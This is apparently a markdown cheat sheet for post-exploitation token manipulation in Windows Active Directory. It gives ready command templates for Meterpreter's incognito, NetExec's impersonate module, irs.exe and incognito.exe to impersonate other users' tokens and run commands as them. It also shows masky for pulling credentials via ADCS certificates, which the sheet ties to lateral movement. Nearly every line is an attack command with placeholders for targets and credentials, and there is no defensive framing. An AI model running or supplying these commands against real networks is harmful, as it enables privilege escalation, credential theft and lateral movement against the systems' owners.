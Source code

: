 # Token Manipulation

## Tools: Meterpreter , CrackMapExec/Netexec , irs.exe , incognito.exe , masky

#### 1) Meterpreter

 - use incognito

 - impersonate_token DOMAIN\\USER

#### 2) CrackMapExec/Netexec

 - netexec smb IP -u USER -p PASSWORD -M impersonate

#### 3) irs.exe

 - irs.exe list

 - irs.exe exec --pid PID --command COMMAND

#### 4) Incognito.exe

 - .\incognito.exe list_tokens -u

 - ./incognito.exe execute -c "DOMAIN\USER" powershell.exe

### These techniques can give us further privileged ACLs to gain more cleartext credentials or creating persistent mechanisms

## Extract credentials with certificate authentication (ADCS required)

 - masky -d DOMAIN -u USER (-p PASSWORD || -k || -H HASH) -ca CERTIFICATE_AUTHORITY IP

### With this technique, we can perform Lateral movement via NTLM, Kerberos or Certificate.
